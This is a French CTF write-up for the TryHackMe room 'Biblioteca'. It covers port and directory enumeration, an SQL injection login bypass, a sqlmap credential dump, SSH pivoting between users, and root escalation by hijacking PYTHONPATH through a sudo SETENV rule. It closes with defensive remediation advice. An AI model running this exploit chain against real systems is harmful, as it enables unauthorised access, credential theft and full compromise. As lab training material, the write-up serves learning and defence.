







# TryHackMe - Biblioteca CTF Writeup

> **Room :** [Biblioteca](https://tryhackme.com/room/biblioteca)
> **Difficulté :** Moyenne
> **Description :** "Shhh. Be very quiet, no shouting inside the biblioteca"

---


## Vue d'Ensemble

Rootons la room Biblioteca sur TryHackMe. La room implique de la SQLi, de la récupération de credentials et de l'élévation de privilèges.

---


## Énumération

### Scan Nmap Initial

Commençons par le scan de ports :

```bash
nmap -Pn -sV 10.49.147.251
```

**Résultats :**
- Port 22 : SSH (OpenSSH)
- Port 8000 : HTTP (Serveur web)


Deux services actifs - commençons par investiguer l'application web.

---

## Analyse de l'Application Web

### Découverte Initiale

En visitant `http://10.49.174.251:8000`, on découvre une page de connexion :




Passons à l'énumération des répertoires.

### Énumération des Répertoires

Utilisation de Gobuster pour trouver les endpoints cachés :

```bash
gobuster dir -u http://10.49.174.251:8000 \ 
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -t 150
```
**Pages Découvertes**
- `/login` - Page de connexion
- `/register` - Inscription utilisateur
- `/logout` - Déconnexion


### Inscription & Accès Initial

J'ai créé un nouveau compte pour accéder à l'application. Après connexion, j'ai été accueilli par une simple page d'index :



Pas grand-chose d'utile visible en surface - il faut creuser davantage.

---

## Exploitation de l'Injection SQL

### Test de SQLi

Début des tests de vulnérabilités d'injection SQL :

1. **Champ username** : Tentative avec des payloads SQLi basiques - sans succès
2. **Champ password** : Bingo ! 🎯

### Bypass d'Authentification

Utilisation d'un payload d'injection SQL classique dans le champ mot de passe :

```sql
1' or '1'='1
```

Cela a contourné l'authentification avec succès et m'a connecté sur un compte appartenant à l'utilisateur `smokey`.

### Analyse de la Requête avec Burp Suite

Pour mieux comprendre ce qui se passe, j'ai intercepté la requête de connexion avec Burp Suite :



La partie intéressante était la structure des paramètres en bas :

```
username=&password=1%27+OR+%271%27%3D%271%27
```

Cela a confirmé la vulnérabilité SQLi et m'a donné un aperçu du traitement des credentials par le backend.

---

## SQLi Automatisée avec SQLmap

Maintenant que la SQLi est confirmée, automatisons l'extraction de données avec SQLmap.

### Capture de la Requête

1. Sauvegarde de la requête de connexion depuis Burp Suite dans un fichier (ex. `biblioteca-burpsuit`)
2. Exécution de SQLmap avec la requête capturée :

```bash
sqlmap -r biblioteca-burpsuit --dbs --dump
```

Cela a dumpé le contenu de la base de données, révélant la base `website` avec une table `users` :



**Credentials découverts :**
- **smokey** - `smokey@email.boop` : `My_P@ssW0rd123`
- **hazel** - (autre utilisateur présent dans le système)

---

## Accès SSH & Mouvement Latéral

### Connexion SSH Initiale (Utilisateur : smokey)

Connexion via SSH avec les credentials trouvés :

```bash
ssh smokey@10.49.174.251
```



**Observations :**
- Le répertoire home de smokey était essentiellement vide
- Pas de privilèges sudo (`Sorry, user smokey may not run sudo on ip-10-49-174-251`)
- Un autre utilisateur existe : **hazel**
- Ce n'est pas l'utilisateur cible - il faut pivoter !

### Passage à l'Utilisateur : hazel

Un autre utilisateur était présent sur le système : **hazel**. En utilisant les credentials obtenus via le dump SQLmap, je suis passé sur hazel :

```bash
su hazel
# ou
ssh hazel@10.49.174.251
```

**Flag Utilisateur :** Trouvé dans le répertoire home de hazel !

---

## Élévation de Privilèges

### Vérification des Privilèges

Hazel ne pouvait pas accéder directement à `/root`, j'ai donc vérifié les privilèges disponibles :

```bash
sudo -l
```



**Jackpot !** Hazel peut exécuter la commande suivante en tant que root avec NOPASSWD :

```
(root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

C'est une opportunité classique de détournement de bibliothèque Python avec la permission `SETENV` !


### Chemin vers Root

La permission sudo `SETENV` nous permet de définir des variables d'environnement lors de l'exécution de la commande. On peut exploiter cela en détournant le `PYTHONPATH` pour charger une bibliothèque malveillante.

**Étapes d'Exploitation :**

1. Création d'un script Python malveillant dans `/tmp` :

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. Exécution du script hasher.py avec le PYTHONPATH modifié :

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```



**Succès !** On obtient un shell root et on peut désormais lire le flag root :

```bash
cd /root
cat root.txt
```

Le flag révèle : `THM{xxx-xxx-xxxx}`

---

## Flags

**Flag Utilisateur :** Situé dans `/home/hazel/user.txt`  
**Flag Root :** `THM{xxx-xxx-xxxx}` (Situé dans `/root/root.txt`)

---

## Points Clés

1. **Tester toujours les deux champs** pour l'injection SQL - parfois un seul est vulnérable
2. **SQLmap est un outil précieux** pour l'extraction automatisée de données une fois la SQLi confirmée
3. **Le mouvement latéral est crucial** - le premier utilisateur compromis n'est pas forcément la cible finale
4. **Vérifier les privilèges sudo immédiatement** après avoir obtenu l'accès à un nouveau compte
5. **SETENV + NOPASSWD = détournement de bibliothèque Python** - Quand on peut définir des variables d'environnement avec sudo, on peut détourner le chargement des bibliothèques Python via `PYTHONPATH`

---

## Outils Utilisés

- `nmap` - Scan de ports
- `gobuster` - Énumération de répertoires
- `Burp Suite` - Interception et analyse des requêtes
- `sqlmap` - Exploitation automatisée de l'injection SQL
- `ssh` - Accès distant

---

## Remédiation

Pour les défenseurs, cette box met en évidence plusieurs vulnérabilités critiques :

1. **Injection SQL** : Des requêtes paramétrées/prepared statements doivent être utilisées pour prévenir la SQLi
2. **Mots de passe faibles** : Implémenter des politiques de mots de passe robustes
3. **Séparation des privilèges** : Limiter les permissions sudo au strict nécessaire
4. **Permissions SETENV** : Ne jamais autoriser `SETENV` dans sudoers sauf absolue nécessité - cela permet la manipulation de variables d'environnement et le détournement de bibliothèques
5. **Exposition de la base de données** : Les credentials ne doivent jamais être stockés en clair

---
